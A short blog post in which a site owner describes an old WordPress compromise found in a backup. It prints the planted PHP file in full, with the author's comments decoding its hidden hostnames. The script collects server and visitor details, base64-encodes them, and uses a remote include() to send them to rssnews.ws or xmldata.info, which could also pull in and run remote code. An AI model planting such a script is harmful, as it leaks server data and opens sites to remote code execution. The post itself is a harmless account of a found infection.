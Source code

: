 ```yaml
---
title: "An old WordPress hack I found"
date: "Fri Jan 21 14:45:00 -0500 2022"
---
```


I was poking through old WordPress backups I have and noticed a strange
`wp-content/85060.php` file. Turns out one of my sites was backed back in 2006
or 2007 and I had never noticed.

The file looks to be a surveillance script of some sort that sends server
information to another site `rssnews.ws` or `xmldata.info`.

```php
<? error_reporting(0);
$s="e";
$a=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
$b=(isset($_SERVER["SERVER_NAME"]) ? $_SERVER["SERVER_NAME"] : $SERVER_NAME);
$c=(isset($_SERVER["REQUEST_URI"]) ? $_SERVER["REQUEST_URI"] : $REQUEST_URI);
$d=(isset($_SERVER["PHP_SELF"]) ? $_SERVER["PHP_SELF"] : $PHP_SELF);
$e=(isset($_SERVER["QUERY_STRING"]) ? $_SERVER["QUERY_STRING"] : $QUERY_STRING);
$f=(isset($_SERVER["HTTP_REFERER"]) ? $_SERVER["HTTP_REFERER"] : $HTTP_REFERER);
$g=(isset($_SERVER["HTTP_USER_AGENT"]) ? $_SERVER["HTTP_USER_AGENT"] : $HTTP_USER_AGENT);
$h=(isset($_SERVER["REMOTE_ADDR"]) ? $_SERVER["REMOTE_ADDR"] : $REMOTE_ADDR);
$i=(isset($_SERVER["SCRIPT_FILENAME"]) ? $_SERVER["SCRIPT_FILENAME"] : $SCRIPT_FILENAME);
$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"]) ? $_SERVER["HTTP_ACCEPT_LANGUAGE"] : $HTTP_ACCEPT_LANGUAGE);

$str=base64_encode($a).".".
	base64_encode($b).".".
	base64_encode($c).".".
	base64_encode($d).".".
	base64_encode($e).".".
	base64_encode($f).".".
	base64_encode($g).".".
	base64_encode($h).".$s.".
	base64_encode($i).".".
	base64_encode($j);

// base64_decode('d3d3My5yc3NuZXdzLndz") #=> rssnews.ws
if ((include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My5yc3NuZXdzLndz")."/?".$str))) {
} else {
	// base64_decode("aHR0cDovLw==")             #=> http://
	// base64_decode("d3d3My54bWxkYXRhLmluZm8=") #=> www3.xmldata.info
	include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My54bWxkYXRhLmluZm8=")."/?".$str);
} ?>
```

No idea what this would be for, and I didn't see any other malicious files
present. Presumably this was intended to give an attacker a list of vulnerable
sites that they could exploit later.

Fun to find out about a hack 15 years later!

